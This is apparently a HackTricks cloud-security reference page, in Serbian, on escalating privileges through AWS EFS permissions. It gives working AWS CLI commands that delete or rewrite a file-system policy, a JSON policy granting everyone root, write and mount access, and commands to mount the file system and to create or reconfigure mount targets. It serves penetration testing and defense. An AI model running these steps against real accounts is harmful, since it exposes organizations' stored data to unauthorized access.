 # AWS - EFS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EFS

Više **informacija o EFS** u:

{{#ref}}
../aws-services/aws-efs-enum.md
{{#endref}}

Zapamtite da da biste montirali EFS, morate biti u podmreži gde je EFS izložen i imati pristup njemu (grupe bezbednosti). Ako se to dešava, po defaultu, uvek ćete moći da ga montirate, međutim, ako je zaštićen IAM politikama, potrebno je da imate dodatne dozvole navedene ovde da biste mu pristupili.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Sa bilo kojom od tih dozvola, napadač može **promeniti politiku datotečnog sistema** da **omogući pristup** ili jednostavno **izbrisati** tako da se **default pristup** odobri.

Da biste izbrisali politiku:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Da biste to promenili:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Sa ovom dozvolom, napadač će moći da **montira EFS**. Ako dozvola za pisanje nije data podrazumevano svima koji mogu da montiraju EFS, imaće samo **pristup za čitanje**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Dodatne dozvole `elasticfilesystem:ClientRootAccess` i `elasticfilesystem:ClientWrite` mogu se koristiti za **pisanje** unutar datotečnog sistema nakon što je montiran i za **pristup** tom datotečnom sistemu **kao root**.

**Potencijalni uticaj:** Indirektno povećanje privilegija pronalaženjem osetljivih informacija u datotečnom sistemu.

### `elasticfilesystem:CreateMountTarget`

Ako je napadač unutar **podmreže** gde **ne postoji montažna tačka** EFS-a. On bi mogao jednostavno **da kreira jednu u svojoj podmreži** sa ovom privilegijom:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potencijalni uticaj:** Indirektno povećanje privilegija pronalaženjem osetljivih informacija u fajl sistemu.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

U scenariju gde napadač otkrije da EFS ima mount target u njegovoj podmreži, ali **nema sigurnosne grupe koja dozvoljava saobraćaj**, mogao bi jednostavno **promeniti to modifikovanjem odabranih sigurnosnih grupa**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potencijalni Uticaj:** Indirektno eskaliranje privilegija pronalaženjem osetljivih informacija u fajl sistemu.

{{#include ../../../banners/hacktricks-training.md}}
